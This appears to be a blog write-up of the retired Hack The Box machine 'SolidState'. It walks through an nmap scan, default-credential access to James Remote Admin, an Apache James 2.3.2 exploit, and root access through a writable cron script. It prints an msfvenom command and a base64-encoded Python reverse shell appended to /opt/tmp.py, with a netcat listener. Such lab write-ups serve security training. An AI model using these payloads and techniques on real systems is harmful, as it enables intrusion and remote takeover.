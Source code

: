 ```yaml
---
layout: post
title: "HTB-SolidState"
categories: HTB-Walkthrough
---
```



![solidstate](/assets/img/solidstate/solidstate.png)

SolidState is another OSCP-like box from the HTB 'retired' archive.

<h4>Nmap</h4>

`nmap -sV -Pn 10.10.10.51 |tee -a solid.txt`

```

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-28 17:07 EST
Warning: 10.10.10.51 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.51
Host is up (0.097s latency).
Not shown: 65469 closed ports, 60 filtered ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        JAMES smtpd 2.3.2
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.20 seconds

```

After googling 'exploit james 2.3.2' I hit upon a method...and possible [exploit](https://www.exploit-db.com/exploits/35513)


<h4>Telnet James Remote Admin</h4>

First use telnet to access James Remote Admin, with default credentials root/root.


![james-admin](/assets/img/solidstate/solidstate-james-admin1.png)

Now to check each mailbox for loot.

![mailbox-loot](/assets/img/solidstate/solid-mailbox-loot.png)

![mailbox-loot2](/assets/img/solidstate/solid-mailbox-loot2.png)

![mailbox-loot3](/assets/img/solidstate/solid-mailbox-loot3.png)

<hr width="250" size="6">


This information, allows us to gain access to Mindy's user account.

`ssh mindy@10.10.10.51`


```

root@kali:~/HTB/retired/solidstate# ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.51' (ECDSA) to the list of known hosts.
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt
91xxxxxxxxxxxxxxxxxxxxxxxxxxxx75
mindy@solidstate:~$ 

```

mindy has a very restricted shell.....so I try build up the available commands...

```

BASH_CMDS[ls]=/bin/ls
BASH_CMDS[uname]=/bin/uname
BASH_CMDS[nano]=/bin/nano
BASH_CMDS[cat]=/bin/cat

```

The shell is restricted but we can get around this with the james.py exploit
which will give us better shell.


```

#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

```
We run the exploit, and get a better shell as mindy.



<h3>Privilege Escalation</h3>

found /opt/tmp.py

we cannot replace, but we can append to it...

```

msfvenom -p cmd/unix/reverse_python lhost=10.10.14.19 lport=443 -a cmd -e generic/none --platform unix

```

```

echo "exec('aW1wb3J0IHNvY2tldCAgICwgIHN1YnByb2Nlc3MgICAsICBvcyAgOyAgICAgICAgIGhvc3Q9IjEwLjEwLjE0LjE5IiAgOyAgICAgICAgIHBvcnQ9NDQzICA7ICAgICAgICAgcz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVUICAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKSAgOyAgICAgICAgIHMuY29ubmVjdCgoaG9zdCAgICwgIHBvcnQpKSAgOyAgICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICwgIDApICA7ICAgICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgLCAgMSkgIDsgICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAsICAyKSAgOyAgICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))" >> /opt/tmp.py

```


set listener ....
`nc -nlvp 443`

....and wait....


```

root@kali:~/HTB/retired/solidstate# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.51] 48652
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
cat /root/root.txt
b4xxxxxxxxxxxxxxxxxxxxxxxxxxxxc9
hostname
solidstate


```

:)
